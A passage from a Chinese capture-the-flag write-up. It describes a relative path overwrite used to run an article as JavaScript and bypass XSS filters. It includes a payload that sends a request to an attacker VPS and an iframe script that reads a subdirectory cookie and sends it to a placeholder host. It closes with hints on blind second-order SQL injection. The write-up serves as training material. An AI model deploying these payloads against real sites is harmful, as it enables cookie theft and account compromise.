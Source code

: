 但是对于浏览器来说他访问的就是

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php`

然后这个时候浏览器会发起js请求去请求原本index.php会加载的`../static/js/bootstrap.min.js`就是向

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php/../static/js/bootstrap.min.js`

相当于

`http://39.107.33.96:20000/index.php/view/article/635/static/bootstrap.min.js`

这里访问的结果和访问

`http://39.107.33.96:20000/index.php/view/article/635/`

也就是你的文章的内容是一样的(不明白的可以自己本地测试)，不同的是浏览器是以js引擎去解析你的文章的，也就是会把你的文章当成一段js去执行。所以这里就可以绕过`<>`的过滤执行xss了。

所以我们新建一个文章内容为
```
var a = new XMLHttpRequest();
a.open('GET', 'yourvpsip', false);
a.send(null);
```
然后用浏览器访问

`http://39.107.33.96:20000/index.php/view/article/22957/..%2f..%2f..%2f..%2findex.php`

然后这里发现居然没有发起请求，查看源码发现是过滤了`"`和`'`，然后我就自作聪明的用反引号，然后我就陷入了无尽的玄学道路，我发现本地浏览器，vsp就可以收到请求

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q6.png)

但是提交给bot就收不到请求，然后我就一直在这里卡了超级长的时间，期间还问了出题人,bot等问题…直到晚上用`String.fromCharCode`才解决了这个玄学问题(这个点真心卡了我好久),后面就比较简单了收到请求后发现cookie有提示

联想到国赛的一道读取子目录cookie的题目
>https://www.lorexxar.cn/2017/07/11/guosai2017/

脚本拿来改了改就可以get子目录cookie了

```
var iframe = document.createElement("iframe");
iframe.src = "/QWB_f14g/QWB";
iframe.id = "frame";
document.body.appendChild(iframe);
iframe.onload = function (){
  	var c = document.getElementById('frame').contentWindow.document.cookie;
	var n0t = document.createElement("link");
	n0t.setAttribute("rel", "prefetch");
	n0t.setAttribute("href", "//xxx/?" + c);
	document.head.appendChild(n0t);
}
```
然后把所有引号之间的内容用String.fromcode()编码一下

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q7.PNG)

### Three hit
进去后发现功能很少，猜测二次注入，发现username有正则限制，那么测试age，发现必须整数，这里可以用16进制绕过，测试一番后发现是个盲注
